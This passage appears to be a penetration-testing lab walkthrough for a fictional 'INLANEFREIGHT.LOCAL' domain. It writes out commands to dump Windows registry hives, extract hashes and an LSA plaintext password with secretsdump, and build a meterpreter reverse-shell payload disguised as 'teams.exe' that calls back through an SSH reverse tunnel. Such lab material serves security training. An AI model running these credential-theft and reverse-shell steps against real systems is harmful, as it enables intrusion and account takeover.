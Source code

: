 ### 🔐 SAM Database Extraction
```cmd
# Registry hive dumping (as SYSTEM):
reg save HKLM\SYSTEM SYSTEM.SAVE
reg save HKLM\SECURITY SECURITY.SAVE
reg save HKLM\SAM SAM.SAVE

# Download via DNN file manager:
1. Navigate to /admin/file-management
2. Download SYSTEM.SAVE, SECURITY.SAVE, SAM.SAVE
3. Transfer to attack host for analysis
```

### 🔍 Secretsdump Analysis
```bash
# Credential extraction
secretsdump.py LOCAL -system SYSTEM.SAVE -sam SAM.SAVE -security SECURITY.SAVE

# Local account hashes:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:[NT_HASH]
mpalledorous:1001:aad3b435b51404eeaad3b435b51404ee:[NT_HASH]

# Domain cached credentials:
INLANEFREIGHT.LOCAL/hporter:$DCC2$10240#hporter#[HASH]

# LSA Secrets:
DefaultPassword: Gr8hambino!
# Associated user: hporter (domain account)
```

### 🎯 Domain Credentials Discovery
```bash
# First domain credential pair discovered:
hporter:Gr8hambino!
# Source: LSA Secrets DefaultPassword

# Validation from SYSTEM shell:
net user hporter /dom
# Output: Domain Users group membership confirmed
# Password last set: 6/1/2022
# Account active: Yes
```

## 🔄 Alternative Attack Methods

### 🔀 Reverse Port Forwarding
```bash
# Scenario: Direct reverse shell from DEV01 to attack host

# 1. Generate payload (target: dmz01 IP)
msfvenom -p windows/x64/meterpreter/reverse_https lhost=172.16.8.120 -f exe -o teams.exe LPORT=443

# 2. Setup multi/handler (attack host)
use multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost 0.0.0.0
set lport 7000
run

# 3. SSH reverse port forwarding
ssh -i dmz01_key -R 172.16.8.120:443:0.0.0.0:7000 root@TARGET_IP -vN

# 4. Execute payload on DEV01
```